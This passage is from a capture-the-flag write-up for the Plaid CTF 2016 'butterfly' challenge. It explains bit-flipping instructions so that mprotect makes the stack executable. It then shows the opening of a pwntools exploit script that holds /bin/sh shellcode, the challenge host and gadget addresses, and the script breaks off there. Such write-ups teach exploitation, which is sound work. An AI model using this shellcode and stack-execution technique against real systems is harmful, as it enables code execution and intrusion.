 By turning it into:

```asm
mov edx, 7
```

As a result the second mprotect call will also set RWX protections and won't bother us.

### Making the stack RWX

When calling the `mprotect` function the application uses the `r15` register to specify the target modification address (from which the page address is derived). We flip a single bit here again to make sure `mprotect` is called over the stack rather than any address we specify:

```asm
  .text:00000000004007EF                 mov     r15, rbp
```

And turn it into:

```asm
mov r15, rsp
```

We redirect to the function start again and this time the mprotect call(s) will make the stack RWX. Keep in mind, however, that the address we specify will no longer be made writable so specify a scratch address somewhere in the `.data` section (which is writable) so the bitflipping code won't cause problems. After this we redirect once again to the function start.

### Supplying the shellcode

Finally we will supply the shellcode and an appropriate return address, together with the same scratch address, to the buffer so that the shellcode gets read to the (now RWX) stack, the function epilogue returns to an address of our choice (the crafted `jmp rsp`) and execution is redirected to our shellcode. Keep in mind, however, since our shellcode is located on the stack that we might want to start the shellcode off with some stackpointer adjustment to prevent any pushes and pops in there from becoming a self-modifying mess.

The [complete exploit](solution/butterfly_sploit.py) looks as follows:

```python
#!/usr/bin/env python
#
# Plaid CTF 2016
# butterfly (CRYPTO/200)
#
# @a: Smoke Leet Everyday
# @u: https://github.com/smokeleeteveryday
#

from pwn import *
from struct import pack, unpack

shellcode = "\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x52\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05"

host = 'butterfly.pwning.xxx'
port = 9999

function_start_addr = 0x400788
rsp_adjust_addr = 0x400863
jmp_rax_addr = 0x4006E6
jnz_stckchk_addr = 0x40085B
fgets_cnt_addr = 0x4007C4
mov_edx_5_addr = 0x400830
mov_r15_rbp_addr = 0x4007F1
scratch_addr = 0x600D10

jmp_rsp = 0x4006E5
```
